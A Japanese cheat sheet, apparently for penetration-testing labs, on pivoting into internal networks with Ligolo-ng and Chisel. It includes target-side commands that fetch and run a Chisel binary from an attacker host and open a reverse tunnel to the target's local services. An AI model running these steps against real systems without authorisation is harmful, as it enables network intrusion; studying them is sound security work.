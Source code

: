
# Ligolo-ngとChiselの使い方

## 目次
1. [Ligolo-ng](#ligolo-ng)
   - [インターフェースの作成と起動](#インターフェースの作成と起動)
   - [Kaliマシン - 攻撃者マシン](#kaliマシン---攻撃者マシン)
   - [WindowsまたはLinuxマシン - 攻撃対象マシン](#windowsまたはlinuxマシン---攻撃対象マシン)
   - [Ligolo-ngコンソールでの操作](#ligolo-ngコンソールでの操作)
   - [Kali Linuxでのサブネット追加](#kali-linuxでのサブネット追加)
2. [Chisel](#chisel)
   - [Chiselクライアントの準備](#chiselクライアントの準備)
   - [Chiselサーバの起動](#chiselサーバの起動)
   - [ローカルポートフォワーディング](#ローカルポートフォワーディング)
   - [ターゲットマシン(Ubuntu)](#ターゲットマシンubuntu)
   - [攻撃マシン(Kali)の操作](#攻撃マシンkaliの操作)

## Ligolo-ng

### インターフェースの作成と起動
```bash
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
```

### Kaliマシン - 攻撃者マシン
```bash
./proxy -laddr <LHOST>:9001 -selfcert
```

### WindowsまたはLinuxマシン - 攻撃対象マシン
```bash
./agent -connect <LHOST>:9001 -ignore-cert
```

### Ligolo-ngコンソールでの操作
```bash
session #select host
ifconfig #内部ネットワークのサブネットをメモする
start #関連するサブネットをligoloインターフェースに追加後に開始
```

### Kali Linuxでのサブネット追加
```bash
sudo ip r add <subnet> dev ligolo
```

## Chisel

### Chiselクライアントの準備
Attacker Machine (Kali)
- ターゲットのOSに合うchiselのクライアントをGitHubからダウンロード  
  [Chisel GitHubリリースページ](https://github.com/jpillora/chisel/releases/tag/v1.8.1)

### Chiselサーバの起動
```bash
chisel server -p 8050 --reverse
```

### ローカルポートフォワーディング

#### Attacker Machine (Kali)
1. Chiselクライアントの準備  
   - ターゲットのOSに合うchiselのクライアントをGitHubからダウンロード  
     [Chisel GitHubリリースページ](https://github.com/jpillora/chisel/releases/tag/v1.8.1)
   - ファイル名の変更  
     - Linux用: `mv chisel_1.8.1_linux_amd64.gz chisel`
     - Windows用: `mv chisel_1.8.1_windows_amd64.gz chisel`

2. ウェブサーバの起動
```bash
python3 -m http.server
```

3. 別のターミナルでChiselサーバを起動
```bash
chisel server -p 8050 --reverse
```

### ターゲットマシン(Ubuntu)
1. Chiselクライアントのダウンロード
```bash
wget http://10.10.14.120:8000/chisel
```

2. 解凍
```bash
gzip -d chisel
```

3. 権限の付与
```bash
chmod +x chisel
```

4. Chiselクライアントの実行
```bash
./chisel client 10.10.14.120:8050 R:9000:127.0.0.1:9000
```

### 攻撃マシン(Kali)の操作
- 攻撃マシンのブラウザで `127.0.0.1:9000` にアクセスすると、ターゲットの `127.0.0.1:9000` にアクセス可能
